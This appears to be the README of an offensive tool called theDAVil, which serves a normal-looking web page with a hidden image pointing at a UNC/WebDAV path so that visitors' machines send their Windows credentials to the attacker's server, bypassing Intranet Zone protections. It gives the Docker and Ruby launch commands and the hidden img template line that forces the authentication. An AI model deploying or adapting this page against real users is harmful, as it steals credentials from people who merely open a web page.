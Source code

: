 # theDAVil

Host a website with an image at a UNC path and get creds. Bypasses Intranet Zones and forces auth
over the Internet.

__A normal looking web page__

![](https://i.imgur.com/fVEv9uJ.png)


__Behind the Scenes__

![](https://i.imgur.com/o2jjw65.png)



## Usage

**With Docker**
```sh
./theDAVil.sh 192.168.99.101 443`
```

**With Just Ruby**
```sh
bundle
ruby server.rb 192.168.99.101 443
```

## Customization

Replace the `views/index.erb` with your content. Make sure you keep the template line that looks
like this:

```erb
<img src="<%= "\\\\#{@host}@#{@port}\\logo.png" %>" style="display: none" />
```
